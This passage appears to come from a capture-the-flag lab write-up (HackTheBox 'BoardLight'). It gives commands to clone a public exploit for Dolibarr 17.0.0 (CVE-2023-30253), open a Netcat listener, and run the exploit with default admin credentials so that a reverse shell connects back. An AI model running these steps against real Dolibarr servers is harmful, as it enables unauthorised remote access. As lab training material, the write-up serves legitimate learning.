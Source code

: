 First of all, let's `clone` it.

```
git clone https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253.git
```

```
cd Exploit-for-Dolibarr-17.0.0-CVE-2023-30253
```

![exploit](./Screenshots/boardlightexploit2.png)

Now, let's setup **Netcat**.

Type in new tab:

```
nc -lvnp {port of your choice}
```

![exploit](./Screenshots/boardlightexploit3.png)

Time to comeback to `exploit` tab.

Type:

```
python3 exploit.py http://crm.board.htb admin admin {your tun0 ip} {port you have chosen}
```

![exploit](./Screenshots/boardlightexploit4.png)
